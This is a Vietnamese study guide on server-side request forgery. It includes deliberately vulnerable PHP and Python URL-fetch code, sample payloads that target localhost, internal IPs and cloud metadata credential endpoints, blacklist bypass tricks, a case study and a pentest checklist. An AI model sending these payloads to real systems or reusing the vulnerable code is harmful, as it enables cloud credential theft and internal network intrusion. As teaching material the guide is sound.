


# Server-side request forgery (SSRF)

## Tài liệu tham khảo

[portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)

[viblo.asia/p/server-side-request-forgery-vulnerabilities-ssrf-cac-lo-hong-gia-mao-yeu-cau-phia-may-chu-phan-1-aNj4vQd3V6r](https://viblo.asia/p/server-side-request-forgery-vulnerabilities-ssrf-cac-lo-hong-gia-mao-yeu-cau-phia-may-chu-phan-1-aNj4vQd3V6r)

[owasp.org/www-community/attacks/Server_Side_Request_Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)

## Bố cục nội dung

```
Server-side request forgery (SSRF)
│
├── 1. Kiến thức nền
│   ├── Giao thức HTTP từ góc nhìn của máy chủ (Web Server làm Client)
│   ├── Phân biệt địa chỉ IP Public và địa chỉ IP Private (RFC 1918)
│   ├── Khái niệm Loopback Address và Localhost
│   ├── Khái niệm Ranh giới tin cậy (Tham chiếu: Task 5.1 - LFI RFI)
│   └── Khái niệm Mạng nội bộ (Tham chiếu: Task 4.5 - Docker Core)
│
├── 2. Lỗ hổng SSRF
│   ├── Khái niệm
│   ├── Nguyên nhân gốc rễ
│   ├── Sơ đồ luồng dữ liệu của SSRF (Source → Sink)
│   └── Tác động bảo mật (Impact)
│
├── 3. Các loại lỗ hổng SSRF
│   ├── Regular SSRF (Trả về kết quả trực tiếp)
│   └── Blind SSRF (Không trả về kết quả trực tiếp)
│
├── 4. Các điểm tiếp nhận nguy hiểm (SSRF Sinks)
│   ├── Chức năng URL Preview và Webhook
│   ├── Chức năng tải tệp tin từ xa (Image/File Fetch)
│   └── Các hàm gửi HTTP Request trong PHP và Python
│
├── 5. Các kỹ thuật khai thác cơ bản và Payload mẫu
│   ├── Khai thác hướng tới chính máy chủ (Localhost)
│   ├── Khai thác hướng tới mạng nội bộ (Intranet)
│   └── Khai thác dịch vụ thông tin cấu hình (Cloud Metadata Services)
│
├── 6. Biện pháp phòng chống
│   ├── Cơ chế Whitelist (Khuyên dùng)
│   ├── Hạn chế của cơ chế Blacklist
│   └── Cấu hình tường lửa cấp mạng (Network-level Firewall)
│
├── 7. Case Study
│
└── 8. Danh sách kiểm tra lỗi (Pentest Checklist)
    ├── Các tham số HTTP thường gặp cần kiểm tra
    ├── Các hàm hệ thống cần rà soát trong mã nguồn
    └── Quy trình kiểm thử phát hiện lỗi
```

<div style="page-break-after: always;"></div>

## 1. Kiến thức nền

### Giao thức HTTP từ góc nhìn của máy chủ (Web Server làm Client)

Trong mô hình hoạt động thông thường của ứng dụng web, trình duyệt của người dùng đóng vai trò làm máy khách gửi yêu cầu HTTP đến máy chủ web. 

Tuy nhiên, trong nhiều trường hợp, chính máy chủ web cũng cần đóng vai trò là một máy khách gửi yêu cầu HTTP tới các dịch vụ bên ngoài hoặc dịch vụ khác trong mạng nội bộ để thu thập dữ liệu phục vụ xử lý logic.

Ví dụ, máy chủ web cần gửi yêu cầu tải một hình ảnh từ đường dẫn do người dùng cung cấp hoặc truy vấn API thời tiết từ bên thứ ba. Lúc này, tiến trình của máy chủ web sẽ tự tạo lập và gửi đi một yêu cầu HTTP mới.

### Phân biệt địa chỉ IP Public và địa chỉ IP Private (RFC 1918)

Mạng máy tính phân chia không gian địa chỉ IP thành hai nhóm chính để quản lý và định tuyến dữ liệu:

* Địa chỉ IP Public: Sử dụng trên mạng Internet toàn cầu. Mọi thiết bị kết nối Internet đều có thể liên lạc trực tiếp với các địa chỉ này.
* Địa chỉ IP Private: Chỉ sử dụng trong mạng nội bộ của tổ chức, gia đình hoặc doanh nghiệp. Các bộ định tuyến trên Internet sẽ bỏ qua các gói tin hướng tới các dải địa chỉ này. Theo tiêu chuẩn RFC 1918, các dải địa chỉ Private bao gồm:
  * Lớp A: Từ 10.0.0.0 đến 10.255.255.255
  * Lớp B: Từ 172.16.0.0 đến 172.31.255.255
  * Lớp C: Từ 192.168.0.0 đến 192.168.255.255

### Khái niệm Loopback Address và Localhost

Địa chỉ Loopback là dải địa chỉ IPv4 từ 127.0.0.0 đến 127.255.255.255 (phổ biến nhất là 127.0.0.1) và IPv6 là ::1. Tên miền localhost mặc định trỏ về địa chỉ này.

Khi một ứng dụng gửi yêu cầu tới localhost hoặc 127.0.0.1, hệ điều hành sẽ tự động định tuyến gói tin quay ngược trở lại chính máy đó mà không gửi ra ngoài card mạng thực tế. Đây là nơi các dịch vụ quản trị nội bộ thường lắng nghe để tránh tiếp xúc với mạng bên ngoài.

### Khái niệm Ranh giới tin cậy

Ranh giới tin cậy phân tách giữa vùng dữ liệu không an toàn bên ngoài và vùng dữ liệu an toàn bên trong. Để tìm hiểu chi tiết về định nghĩa và cách phân loại ranh giới tin cậy, tham khảo nội dung tại mục 1.4 của tài liệu [Task 5.1 - LFI RFI.md](<file:///d:/NINHTHANH_CYBERSEC/DOCUMENTATION/TASK%205/Task%205.1%20-%20LFI%20RFI.md#L169-L174>).

### Khái niệm Mạng nội bộ

Trong kiến trúc hệ thống thực tế, các thành phần của ứng dụng web như máy chủ web, cơ sở dữ liệu, máy chủ lưu cache và các dịch vụ bổ trợ thường không được cấu hình để tiếp xúc trực tiếp với môi trường mạng Internet bên ngoài. Thay vào đó, các thành phần này được đặt chung trong một phân vùng mạng cô lập gọi là mạng nội bộ.

Các máy chủ trong mạng nội bộ giao tiếp với nhau bằng các địa chỉ IP private thông qua các bộ chuyển mạch nội bộ hoặc mạng ảo. Vì các kết nối này diễn ra bên trong phân vùng mạng an toàn, các kỹ sư hệ thống thường có xu hướng cấu hình các dịch vụ nội bộ đơn giản hơn, giảm bớt các bước xác thực danh tính hoặc cấp quyền phức tạp để tối ưu hiệu năng. Đây chính là yếu tố làm tăng tính nghiêm trọng của lỗ hổng khi kẻ tấn công có thể thông qua máy chủ web để gửi yêu cầu trực tiếp tới các dịch vụ này.

---

## 2. Lỗ hổng SSRF

### Khái niệm

Server-side request forgery là lỗ hổng an toàn thông tin xảy ra khi ứng dụng web cho phép người dùng kiểm soát một phần hoặc toàn bộ đường dẫn URL mà máy chủ sẽ gửi yêu cầu HTTP tới, nhưng thiếu cơ chế xác thực và lọc dữ liệu đầu vào. Kẻ tấn công có thể lợi dụng điều này để ép máy chủ web gửi các yêu cầu giả mạo đến các vị trí không mong muốn.

### Nguyên nhân gốc rễ

Nguyên nhân chính dẫn đến lỗ hổng này là do máy chủ web tin tưởng tuyệt đối vào dữ liệu đường dẫn URL do người dùng cung cấp. Khi máy chủ thực hiện gửi yêu cầu, nó sử dụng chính quyền hạn và danh phận của máy chủ để truy cập. Do đó, các yêu cầu giả mạo này có thể vượt qua các chốt chặn an ninh cấp mạng vốn chỉ chặn truy cập từ bên ngoài Internet nhưng cho phép truy cập từ mạng nội bộ.

### Sơ đồ luồng dữ liệu của SSRF (Source → Sink)



### Tác động bảo mật (Impact)

Lỗ hổng này có thể gây ra nhiều hậu quả nghiêm trọng:

* Quét và phát hiện các cổng dịch vụ đang mở trong mạng nội bộ.
* Đọc thông tin nhạy cảm từ các dịch vụ nội bộ vốn không có cơ chế xác thực (ví dụ như Redis, Memcached).
* Truy cập các API cấu hình hệ thống của nhà cung cấp dịch vụ đám mây (Cloud Metadata).
* Thực thi mã lệnh từ xa bằng cách tương tác với các giao thức hoặc dịch vụ nội bộ có lỗ hổng.

---

## 3. Các loại lỗ hổng SSRF

Ứng dụng web xử lý kết quả trả về từ yêu cầu HTTP của máy chủ theo hai cách khác nhau, tương ứng với hai loại lỗ hổng:

### Regular SSRF (Trả về kết quả trực tiếp)

Xảy ra khi ứng dụng web nhận kết quả trả về từ yêu cầu HTTP do máy chủ thực hiện (ví dụ nội dung trang HTML, hình ảnh, file dữ liệu) và hiển thị trực tiếp kết quả đó lên màn hình cho người dùng. Kẻ tấn công có thể nhìn thấy ngay các dữ liệu nhạy cảm đọc được từ mạng nội bộ.

### Blind SSRF (Không trả về kết quả trực tiếp)

Xảy ra khi ứng dụng gửi yêu cầu HTTP đi nhưng không trả lại nội dung phản hồi cho người dùng, hoặc chỉ trả về thông tin trạng thái chung như thành công hoặc thất bại. Kẻ tấn công không thể đọc trực tiếp dữ liệu từ máy chủ mục tiêu mà phải phát hiện dựa trên các dấu hiệu gián tiếp như thời gian phản hồi thay đổi hoặc giám sát các kết nối đi ra ngoài hệ thống qua các công cụ ghi nhận tương tác ngoài băng (Out-of-band).

---

## 4. Các điểm tiếp nhận nguy hiểm (SSRF Sinks)

Các tính năng nghiệp vụ sau thường là nơi xuất hiện các điểm tiếp nhận dữ liệu nguy hiểm:

### Chức năng URL Preview và Webhook

Các ứng dụng mạng xã hội hoặc chat thường có tính năng hiển thị ảnh thu nhỏ (preview) của liên kết khi người dùng dán một đường dẫn URL. Hệ thống sẽ tải trang web từ URL đó để phân tích thẻ tiêu đề và ảnh đại diện.

Dịch vụ Webhook cho phép người dùng đăng ký một URL để nhận thông báo tự động khi có sự kiện xảy ra trên hệ thống. Máy chủ sẽ gửi một yêu cầu HTTP POST tới URL đó khi sự kiện kích hoạt.

### Chức năng tải tệp tin từ xa (Image/File Fetch)

Tính năng cho phép người dùng cung cấp một đường dẫn URL của hình ảnh hoặc tệp tin nằm ở máy chủ khác để lưu trữ về máy chủ hiện tại, ví dụ như tải ảnh đại diện từ link.

### Các hàm gửi HTTP Request trong PHP và Python

Trong mã nguồn, các hàm hoặc thư viện mạng sau nếu nhận trực tiếp tham số đầu vào của người dùng mà không kiểm tra sẽ trở thành điểm tiếp nhận nguy hiểm:

Mã nguồn PHP sử dụng thư viện cURL để gửi yêu cầu:

```php
<?php
// file: fetch.php
// Dữ liệu đầu vào từ tham số url do người dùng kiểm soát
$url = $_GET['url'];

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
// Gửi yêu cầu HTTP và lấy kết quả trả về
$response = curl_exec($ch);
curl_close($ch);

echo $response;
?>
```

Mã nguồn Python sử dụng thư viện requests:

```python
# file: app.py
from flask import Flask, request
import requests

app = Flask(__name__)

@app.route("/preview")
def preview():
    # Nhận tham số URL từ query string
    target_url = request.args.get('url')
    # Thực hiện gửi yêu cầu HTTP tải nội dung
    r = requests.get(target_url)
    return r.text
```

---

## 5. Các kỹ thuật khai thác cơ bản và Payload mẫu

### Khai thác hướng tới chính máy chủ (Localhost)

Kẻ tấn công ép máy chủ web gửi yêu cầu truy cập đến các cổng dịch vụ đang lắng nghe trên giao diện mạng loopback của chính nó. Các dịch vụ này thường không yêu cầu xác thực vì giả định rằng chỉ có người quản trị đăng nhập trực tiếp vào máy mới có quyền truy cập.

Payload mẫu:

```http
GET /fetch.php?url=http://127.0.0.1:8080/admin HTTP/1.1
Host: target.com
```

```http
GET /fetch.php?url=http://localhost:6379/ HTTP/1.1
Host: target.com
```

### Khai thác hướng tới mạng nội bộ (Intranet)

Kẻ tấn công dò quét các địa chỉ IP private trong mạng nội bộ của ứng dụng để tìm kiếm các máy chủ khác nằm sau tường lửa bảo vệ.

Payload mẫu:

```http
GET /fetch.php?url=http://192.168.1.100:80/ HTTP/1.1
Host: target.com
```

```http
GET /fetch.php?url=http://10.0.0.1:22/ HTTP/1.1
Host: target.com
```

### Khai thác dịch vụ thông tin cấu hình (Cloud Metadata Services)

Các máy chủ ảo hóa chạy trên nền tảng điện toán đám mây như AWS, Google Cloud hay Azure thường cung cấp một dịch vụ HTTP nội bộ để lấy thông tin cấu hình và thông tin định danh của máy chủ ảo (metadata). Dịch vụ này lắng nghe trên một địa chỉ IP tĩnh không đổi là 169.254.169.254 và không yêu cầu mật khẩu truy cập.

Payload mẫu truy cập AWS Metadata để lấy Access Key:

```http
GET /fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role HTTP/1.1
Host: target.com
```

Payload mẫu truy cập Google Cloud Metadata (yêu cầu một số header đặc thù nhưng có thể khai thác nếu ứng dụng cho phép cấu hình header hoặc dùng API cũ):

```http
GET /fetch.php?url=http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1
Host: target.com
```

---

## 6. Biện pháp phòng chống

### Cơ chế Whitelist (Khuyên dùng)

Đây là giải pháp hiệu quả nhất để ngăn chặn lỗ hổng này. Hệ thống chỉ cho phép máy chủ gửi yêu cầu tới một danh sách các tên miền hoặc địa chỉ IP được xác định trước là an toàn. Mọi yêu cầu hướng tới các địa chỉ không nằm trong danh sách này đều bị chặn ngay lập tức.

### Hạn chế của cơ chế Blacklist

Việc cố gắng chặn các địa chỉ IP private như 127.0.0.1, localhost hoặc dải 192.168.x.x bằng các bộ lọc blacklist thường rất dễ bị vượt qua bằng các kỹ thuật khác nhau như:

* Sử dụng các địa chỉ IP thay thế có cùng ý nghĩa như 127.1, 0.0.0.0 hoặc phiên bản IPv6 là [::1].
* Đăng ký một tên miền hợp lệ nhưng cấu hình bản ghi DNS trỏ về địa chỉ IP nội bộ (ví dụ tên miền test.com trỏ về 127.0.0.1).
* Sử dụng cơ chế chuyển hướng HTTP (Redirection) để hướng máy chủ tới địa chỉ nội bộ sau khi đã vượt qua vòng kiểm tra ban đầu.

### Cấu hình tường lửa cấp mạng (Network-level Firewall)

Thiết lập các quy tắc tường lửa trên máy chủ hoặc thiết bị mạng để chặn toàn bộ các kết nối đi ra (egress traffic) từ máy chủ web hướng tới các vùng mạng nội bộ nhạy cảm hoặc dải IP dịch vụ đám mây (169.254.169.254), ngoại trừ các cổng dịch vụ bắt buộc phải kết nối.

---

## 7. Case Study

### Tình huống giả định

Ứng dụng web cung cấp một chức năng cho phép người dùng nhập vào một liên kết API dự báo thời tiết của bên thứ ba để hệ thống tự động cập nhật dữ liệu hiển thị trên bảng điều khiển.

Mã nguồn xử lý yêu cầu của ứng dụng:

```php
<?php
// file: weather.php
if (isset($_GET['api_endpoint'])) {
    $endpoint = $_GET['api_endpoint'];
    
    // Gửi yêu cầu HTTP GET đến endpoint do người dùng truyền vào
    $weather_data = file_get_contents($endpoint);
    
    // Trả về kết quả cho trình duyệt
    echo $weather_data;
}
?>
```

### Sơ đồ mô tả kịch bản khai thác



### Các bước thực hiện khai thác

**Bước 1: Xác định điểm nhập liệu có lỗ hổng**

Người kiểm thử phát hiện tham số `api_endpoint` chấp nhận một URL đầy đủ và thực thi tải dữ liệu từ URL đó về hiển thị.

Yêu cầu thông thường:

```http
GET /weather.php?api_endpoint=http://api.weatherapi.com/v1/current.json HTTP/1.1
Host: target.com
```

**Bước 2: Gửi payload kiểm tra loopback hoặc IP dịch vụ đặc biệt**

Người kiểm thử thay đổi giá trị tham số để hướng yêu cầu đến IP Metadata Service của hạ tầng đám mây:

*Raw HTTP Request:*

```http
GET /weather.php?api_endpoint=http://169.254.169.254/latest/meta-data/ HTTP/1.1
Host: target.com
Connection: close
```

*Raw HTTP Response nhận về:*

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Connection: close

ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
hostname
iam/
instance-action
instance-id
instance-type
local-hostname
local-ipv4
public-hostname
public-ipv4
security-groups
```

Ứng dụng web đã trả về toàn bộ danh mục dữ liệu cấu hình hệ thống. Lỗ hổng SSRF được xác nhận tồn tại.

---

## 8. Danh sách kiểm tra lỗi (Pentest Checklist)

### Các tham số HTTP thường gặp cần kiểm tra

Hãy chú ý kiểm thử các tham số truyền vào ứng dụng có tên gọi hoặc giá trị chứa liên kết URL:

| Tên tham số                       | Ví dụ giá trị                          |
| :---------------------------------- | :----------------------------------------- |
| `url`, `uri`, `path`          | `url=http://example.com/api`             |
| `file`, `document`, `pdf`     | `file=http://remote-server.com/doc.pdf`  |
| `image`, `avatar`, `icon`     | `image=http://img.com/avatar.png`        |
| `api`, `endpoint`, `callback` | `callback=http://mywebhook.com/listener` |

### Các hàm hệ thống cần rà soát trong mã nguồn

Khi thực hiện đánh giá an toàn thông tin bằng phương pháp phân tích mã nguồn (Whitebox), cần tìm kiếm các hàm và đối tượng sau:

* Trong PHP: các hàm `curl_exec`, `file_get_contents`, `readfile`, `fopen`.
* Trong Python: các thư viện `requests.get`, `requests.post`, `urllib.request.urlopen`, `pycurl`.
* Trong Node.js: các thư viện `axios`, `request`, `needle`, thư viện built-in `http.get`.

### Quy trình kiểm thử phát hiện lỗi

1. Xác định các điểm nhập liệu chấp nhận đường dẫn URL hoặc địa chỉ IP.
2. Gửi thử yêu cầu chứa địa chỉ loopback hoặc địa chỉ nội bộ (ví dụ 127.0.0.1:80) và quan sát kết quả phản hồi của ứng dụng:
   * Nếu nội dung trang web nội bộ hiển thị ra ngoài, lỗ hổng thuộc loại Regular SSRF.
   * Nếu ứng dụng hiển thị lỗi kết nối hoặc thời gian phản hồi thay đổi rõ rệt khi thay đổi số cổng dịch vụ, đây là dấu hiệu của SSRF.
3. Nếu ứng dụng không trả về kết quả, sử dụng dịch vụ tương tác ngoài băng (như Burp Collaborator) truyền vào tham số URL để kiểm tra xem máy chủ web có thực hiện gửi truy vấn DNS hoặc kết nối HTTP ra ngoài Internet hay không. Nếu có kết nối được thiết lập, lỗ hổng thuộc loại Blind SSRF.
